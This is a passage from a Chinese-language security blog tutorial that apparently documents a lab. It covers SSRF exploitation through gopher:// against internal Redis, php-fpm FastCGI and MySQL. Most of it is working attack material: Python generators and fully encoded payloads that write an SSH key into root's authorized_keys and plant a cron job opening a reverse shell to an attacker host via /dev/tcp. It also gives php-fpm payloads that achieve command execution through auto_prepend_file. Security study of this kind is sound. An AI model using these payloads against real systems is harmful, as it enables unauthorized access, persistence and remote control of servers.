set 1 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDrCwrA1zAhmjeG6E/45IEs/9a6AWfXb6iwzo+D62y8MOmt+sct27ZxGOcRR95FT6zrfFxqt2h56oLwml/Trxy5sExSQ/cvvLwUTWb3ntJYyh2eGkQnOf2d+ax2CVF8S6hn2Z0asAGnP3P4wCJlyR7BBTaka9QNH/4xsFDCfambjmYzbx9O2fzl8F67jsTq8BVZxy5XvSsoHdCtr7vxqFUd/bWcrZ5F1pEQ8tnEBYsyfMK0NuMnxBdquNVSlyQ/NnHKyWtI/OzzyfvtAGO6vf3dFSJlxwZ0aC15GOwJhjTpTMKq9jrRdGdkIrxLKe+XqQnjxtk4giopiFfRu8winE9scqlIA5Iu/d3O454ZkYDMud7zRkSI17lP5rq3A1f5xZbTRUlxpa3Pcuolg/OOhoA3iKNhJ/JT31TU9E24dGh2Ei8K+PpT92dUnFDcmbEfBBQz7llHUUBxedy44Yl+SOsVHpNqwFcrgsq/WR5BGqnu54vTTdJh0pSrl+tniHEnWWU= root@whoami
'
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```

然后编写脚本，将其转化为Gopher协议的格式：

```
import urllib
protocol="gopher://"
ip="192.168.52.131"
port="6379"
ssh_pub="\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDrCwrA1zAhmjeG6E/45IEs/9a6AWfXb6iwzo+D62y8MOmt+sct27ZxGOcRR95FT6zrfFxqt2h56oLwml/Trxy5sExSQ/cvvLwUTWb3ntJYyh2eGkQnOf2d+ax2CVF8S6hn2Z0asAGnP3P4wCJlyR7BBTaka9QNH/4xsFDCfambjmYzbx9O2fzl8F67jsTq8BVZxy5XvSsoHdCtr7vxqFUd/bWcrZ5F1pEQ8tnEBYsyfMK0NuMnxBdquNVSlyQ/NnHKyWtI/OzzyfvtAGO6vf3dFSJlxwZ0aC15GOwJhjTpTMKq9jrRdGdkIrxLKe+XqQnjxtk4giopiFfRu8winE9scqlIA5Iu/d3O454ZkYDMud7zRkSI17lP5rq3A1f5xZbTRUlxpa3Pcuolg/OOhoA3iKNhJ/JT31TU9E24dGh2Ei8K+PpT92dUnFDcmbEfBBQz7llHUUBxedy44Yl+SOsVHpNqwFcrgsq/WR5BGqnu54vTTdJh0pSrl+tniHEnWWU= root@whoami\n\n"
filename="authorized_keys"
path="/root/.ssh/"
passwd=""
cmd=["flushall",
	 "set 1 {}".format(ssh_pub.replace(" ","${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	 ]
if passwd:
	cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
	CRLF="\r\n"
	redis_arr = arr.split(" ")
	cmd=""
	cmd+="*"+str(len(redis_arr))
	for x in redis_arr:
		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
	cmd+=CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print payload
```

生成的payload同样进行url二次编码，然后利用Ubuntu服务器上的SSRF打过去：

```
ssrf.php?url=gopher%3A%2F%2F192.168.52.131%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%2524568%250D%250A%250A%250Assh-rsa%2520AAAAB3NzaC1yc2EAAAADAQABAAABgQDrCwrA1zAhmjeG6E%2F45IEs%2F9a6AWfXb6iwzo%252BD62y8MOmt%252Bsct27ZxGOcRR95FT6zrfFxqt2h56oLwml%2FTrxy5sExSQ%2FcvvLwUTWb3ntJYyh2eGkQnOf2d%252Bax2CVF8S6hn2Z0asAGnP3P4wCJlyR7BBTaka9QNH%2F4xsFDCfambjmYzbx9O2fzl8F67jsTq8BVZxy5XvSsoHdCtr7vxqFUd%2FbWcrZ5F1pEQ8tnEBYsyfMK0NuMnxBdquNVSlyQ%2FNnHKyWtI%2FOzzyfvtAGO6vf3dFSJlxwZ0aC15GOwJhjTpTMKq9jrRdGdkIrxLKe%252BXqQnjxtk4giopiFfRu8winE9scqlIA5Iu%2Fd3O454ZkYDMud7zRkSI17lP5rq3A1f5xZbTRUlxpa3Pcuolg%2FOOhoA3iKNhJ%2FJT31TU9E24dGh2Ei8K%252BPpT92dUnFDcmbEfBBQz7llHUUBxedy44Yl%252BSOsVHpNqwFcrgsq%2FWR5BGqnu54vTTdJh0pSrl%252BtniHEnWWU%253D%2520root%2540whoami%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252411%250D%250A%2Froot%2F.ssh%2F%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%252415%250D%250Aauthorized_keys%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```

如下图，成功在主机192.168.52.131上面写入SSH公钥：


如下图，ssh连接成功：


### 创建计划任务反弹Shell

**注意：这个只能在Centos上使用，别的不行，好像是由于权限的问题。**

构造redis的命令如下：

```
flushall
set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1\n\n'
config set dir /var/spool/cron/
config set dbfilename root
save

// 47.xxx.xxx.72为攻击者vps的IP
```

然后编写脚本，将其转化为Gopher协议的格式：

```
import urllib
protocol="gopher://"
ip="192.168.52.131"
port="6379"
reverse_ip="47.xxx.xxx.72"
reverse_port="2333"
cron="\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/%s/%s 0>&1\n\n\n\n"%(reverse_ip,reverse_port)
filename="root"
path="/var/spool/cron"
passwd=""
cmd=["flushall",
	 "set 1 {}".format(cron.replace(" ","${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	 ]
if passwd:
	cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
	CRLF="\r\n"
	redis_arr = arr.split(" ")
	cmd=""
	cmd+="*"+str(len(redis_arr))
	for x in redis_arr:
		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
	cmd+=CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print payload
```

生成的payload同样进行url二次编码，然后利用Ubuntu服务器上的SSRF打过去，即可在目标主机192.168.52.131上写入计划任务，等到时间后，攻击者vps上就会获得目标主机的shell：


[[GKCTF2020\]EZ三剑客-EzWeb](https://blog.csdn.net/qq_45521281/article/details/106532501)这道题利用的就是攻击内网Redis的思路。

## 0x08 攻击内网FastCGI

FastCGI指快速通用网关接口（Fast Common Gateway  Interface／FastCGI）是一种让交互程序与Web服务器通信的协议。FastCGI是早期通用网关接口（CGI）的增强版本。FastCGI致力于减少网页服务器与CGI程序之间交互的开销，从而使服务器可以同时处理更多的网页请求。

> 众所周知，在网站分类中存在一种分类就是静态网站和动态网站，两者的区别就是静态网站只需要**通过浏览器进行解析**，而动态网站需要一个**额外的编译解析**的过程。以Apache为例，当访问动态网站的主页时，根据容器的配置文件，它知道这个页面不是静态页面，Web容器就会把这个请求进行简单的处理，然后如果使用的是CGI，就会启动CGI程序（对应的就是PHP解释器）。接下来PHP解析器会解析php.ini文件，初始化执行环境，然后处理请求，再以规定CGI规定的格式返回处理后的结果，退出进程，Web server再把结果返回给浏览器。这就是一个完整的动态PHP Web访问流程。
>
> 这里说的是使用CGI，而FastCGI就相当于高性能的CGI，与CGI不同的是它**像一个常驻的CGI**，在启动后会一直运行着，不需要每次处理数据时都启动一次，**所以FastCGI的主要行为是将CGI解释器进程保持在内存中**，并因此获得较高的性能 。

### php-fpm

FPM（FastCGI 进程管理器）可以说是FastCGI的一个具体实现，用于替换 PHP FastCGI 的大部分附加功能，对于高负载网站是非常有用的。

攻击FastCGI的主要原理就是，在设置环境变量实际请求中会出现一个`SCRIPT_FILENAME': '/var/www/html/index.php`这样的键值对，它的意思是php-fpm会执行这个文件，但是这样即使能够控制这个键值对的值，但也只能控制php-fpm去执行某个已经存在的文件，不能够实现一些恶意代码的执行。

而在PHP 5.3.9后来的版本中，PHP增加了安全选项导致只能控制php-fpm执行一些php、php4这样的文件，这也增大了攻击的难度。但是好在PHP允许通过PHP_ADMIN_VALUE和PHP_VALUE去动态修改PHP的设置。

那么当设置PHP环境变量为：`auto_prepend_file = php://input;allow_url_include = On`时，就会在执行PHP脚本之前包含环境变量`auto_prepend_file`所指向的文件内容，`php://input`也就是接收POST的内容，这个我们可以在FastCGI协议的body控制为恶意代码，这样就在理论上实现了php-fpm任意代码执行的攻击。

详情请见：[《SSRF系列之攻击FastCGI》](https://bbs.ichunqiu.com/thread-58455-1-1.html)

测试环境：


WEB服务器Ubuntu（192.168.43.166）存在SSRF漏洞：


并且WEB服务器Ubuntu上存在FastCGI，那么我们就可以利用其SSRF漏洞去攻击其本地的FastCGI。

> 假设在配置fpm时，将监听的地址设为了0.0.0.0:9000，那么就会产生php-fpm未授权访问漏洞，此时攻击者可以无需利用SSRF从服务器本地访问的特性，直接与服务器9000端口上的php-fpm进行通信，进而可以用fcgi_exp等工具去攻击服务器上的php-fpm实现任意代码执行。
>
> 
>
> 当内网中的其他主机上配置有fpm，且监听的地址为0.0.0.0:9000时，那么这台主机就可能存在php-fpm未授权访问漏洞，我们便可以利用Ubuntu服务器上的SSRF去攻击他，如果内网中的这台主机不存在php-fpm未授权访问漏洞，那么就直接利用Ubuntu服务器上的SSRF去攻击他显然是不行的。

### 使用fcgi_exp工具攻击

下载地址：https://github.com/piaca/fcgi_exp

这个工具主要是用来攻击未授权访问php-fpm的，可用来测试是否可以直接攻击php-fpm，但需要自己将生成的payload进行转换一下。

该工具需要go语言环境，下载后进入目录执行如下命令进行编译：

```
go build fcgi_exp.go                    # 编译fcgi_exp.go
```

编译完成后，我们在攻击机上使用`nc -lvvp 2333 > fcg_exp.txt`监听2333 端口来接收fcgi_exp生成的payload，另外再开启一个终端使用下面的命令来向2333端口发送payload：

```
./fcgi_exp system 127.0.0.1 2333 /var/www/html/index.php "id"
```


生成的fcg_exp.txt文件的内容是接收到的payload，内容如下：


然后对fcg_exp.txt文件里的payload进行url编码，这里通过如下脚本实现（脚本是我从网上白嫖的嘿嘿）：

```
# -*- coding: UTF-8 -*-
from urllib.parse import quote, unquote, urlencode

file = open('fcg_exp.txt','r')
payload = file.read()
print("gopher://127.0.0.1:9000/_"+quote(payload).replace("%0A","%0D").replace("%2F","/"))
```

执行上面的python脚本生成如下payload：


这里还要对上面的payload进行二次url编码，然后将最终的payload内容放到?url=后面发送过去：

```
ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2514%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509%255BPHP_VALUEallow_url_include%2520%253D%2520On%250Ddisable_functions%2520%253D%2520%250Dsafe_mode%2520%253D%2520Off%250Dauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2500%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----0vcdb34oju09b8fd-----%250D%2527%2529%253B%253F%253E
```

如下图所示，命令执行成功：


### 使用Gopherus工具攻击

下载地址：https://github.com/tarunkant/Gopherus

该工具可以帮你生成符合Gopher协议格式的payload，以利用SSRF攻击Redis、FastCGI、MySql等内网应用。

使用Gopherus工具生成攻击FastCGI的payload：

```
python gopherus.py --exploit fastcgi
/var/www/html/index.php    # 这里输入的是一个已知存在的php文件
id    # 输入一个你要执行的命令
```


然后还是将得到的payload进行二次url编码，将最终得到的payload放到?url=后面打过去过去：

```
ssrf.php?url=gopher%3A//127.0.0.1%3A9000/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A//input%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```


命令执行成功。

## 0x09 攻击内网MySql


首先我们要先了解一下MySql数据库用户认证的过程。MySQL分为服务端和客户端。MySQL数据库用户认证采用的是 挑战/应答  的方式，即服务器生成该挑战码(scramble)并发送给客户端，客户端用挑战码将自己的密码进行加密后，并将相应的加密结果返回给服务器，服务器本地用挑战码的将用户的密码加密，如果加密的结果和用户返回的加密的结果相同则用户认证成功，从而完成用户认证的过程。

登录时需要用服务器发来的挑战码(scramble)将密码加密，但是当数据库用户密码为空时，加密后的密文也为空。客户端给服务端发的认证包就是相对固定的了。这样就无需交互了，可以通过Gopher协议来直接发送了。

测试环境如下：


Ubuntu服务器为WEB服务器，存在SSRF漏洞，且上面运行着MySql服务，用户名为whoami，密码为空并允许空密码登录。

下面我们还是使用Gopherus工具生成攻击Ubuntu服务器本地MySql的payload：

```
python gopherus.py --exploit mysql
whoami    # 登录用的用户名
show databases;    # 登录后要执行的sql语句
```

生成如下payload：


将得到的paylaod进行url二次编码，然后将最终的payload内容放到?url=后面发送打过去就行了。但是我这里失败了，不知道为什么......

## Ending......

推荐一个SSRF练习靶场：

- ssrf-lab：https://github.com/fengwenhua/ssrf-lab

该靶场有一个好看又简洁的界面，提供了最基本的 REST API 和客户端 WebHook 功能用于 SSRF 测试。配置请看：https://www.heibai.org/post/1287.html


本文多为笔者的学习总结，若有不当的地方还望各位经过的路过的大佬多多点评。

个人博客：https://whoamianony.top/

> 参考： https://blog.csdn.net/Ping_Pig/article/details/99412487
>
> https://www.cnblogs.com/iors/p/9777571.html
>
> https://blog.csdn.net/qq_43625917/article/details/104528645?utm_source=app
>
> https://xz.aliyun.com/t/2115
>
> https://blog.csdn.net/weixin_36343353/article/details/112277580
>
> https://blog.csdn.net/cj_Allen/article/details/106855893
>
> https://www.redteaming.top/2019/07/15/浅析Redis中SSRF的利用/#Redis配合gopher协议进行SSRF
>
> https://bbs.ichunqiu.com/thread-58455-1-1.html
>
> https://blog.chaitin.cn/gopher-attack-surfaces/
>
> https://www.anquanke.com/post/id/197431#h2-6
>
> [https://www.anquanke.com/post/id/145519#h2-14](https://www.anquanke.com/post/id/145519#h2-14)

